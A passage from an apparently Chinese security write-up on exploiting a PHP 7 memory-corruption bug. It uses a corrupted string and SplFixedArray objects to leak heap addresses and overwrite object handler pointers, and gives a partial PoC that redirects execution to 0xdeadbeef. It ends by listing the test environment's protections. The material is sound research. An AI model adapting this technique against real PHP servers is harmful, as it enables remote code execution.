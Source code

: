 最后理想的情况就是这样啦，被改掉长度的字符串后面是整齐排列的`SplFixedArray`

能做的事情有：

1.  越界读后面堆块指针，获取其真实地址，和与数组游标的对应关系
2.  越界写后面对象的函数指针，指向前面获取的地址，即数组的地址

向数组填入内容，这样劫持了$rip

文章写到这里就结束了，poc给到0xdeadbeef

```
function exception_handler($exception) {
global $z;
$s=str_repeat('C',0x48);
$t=new SplFixedArray2(5);
$t[0]='Z';

unset($z[22]);
unset($z[21]);

$heap_addr=read_ptr($s,0x58);
print "Leak Heap memory location: 0x" . dechex($heap_addr) . "\n"; 
$heap_addr_of_fake_handler=$heap_addr-0x70-0x70+0x18+0x300;
print "Heap address of fake handler 0x" . dechex($heap_addr_of_fake_handler) . "\n";
//Set Handlers
write_ptr($s,$heap_addr_of_fake_handler,0x40);
//Set fake handler

write_ptr($s,0x40,0x300); //handler.offset
write_ptr($s,0x4141414141414141,0x308); //handler.free_obj
write_ptr($s,0xdeadbeef,0x310); //handler.dtor.obj
str_repeat('z',5);
unset($t);  //BOOM!
}

```

0x01 实际测试
=========

* * *

演示只是演示，没实际意义，在真实的生产环境中，这个洞有没有可能成功利用呢

在此，特别硬广@lxj616提供的woobuntu测试环境，真的非常好用！

*   Apache/2.4.18
*   php 7.0.4

在apache里面php是和libc一样被当做.so来加载的，所以全套保护都上齐全了

*   CANARY : ENABLED
*   FORTIFY : ENABLED
*   NX : ENABLED
*   PIE : ENABLED
*   RELRO : FULL
